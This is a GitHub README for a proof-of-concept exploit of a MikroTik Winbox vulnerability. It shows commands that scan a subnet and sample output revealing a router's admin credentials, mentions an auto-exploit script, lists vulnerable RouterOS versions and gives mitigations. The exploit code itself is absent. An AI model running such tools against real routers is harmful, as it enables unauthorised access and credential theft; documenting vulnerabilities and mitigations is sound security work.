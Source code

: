 # WinboxPoC
Proof of Concept of Winbox Critical Vulnerability


## How to use
Run it :)
```
$ ./kerma.sh 172.17.17.0/24
172.17.17.17

User: admin
Pass: Th3P4ssWord

```
## Auto exploit copied IP
```
$ ./event.sh
```

## Vulnerable versions
all versions from 6.29 (release date: 2015/28/05) to 6.42 (release date 2018/04/20) are vulnerable ..

## Mitigation Techniques
- Update your RouterOS to the last version or Bugfix version 
- Do not use Winbox and disable it :| it's nothing just a GUI for NooBs ..
- you may use some Filter Rules (ACL) to deny anonymous accesses to the Router 
```
ip firewall filter add chain=input in-interface=wan protocol=tcp dst-port=8291 action=drop
```

Enjoy!
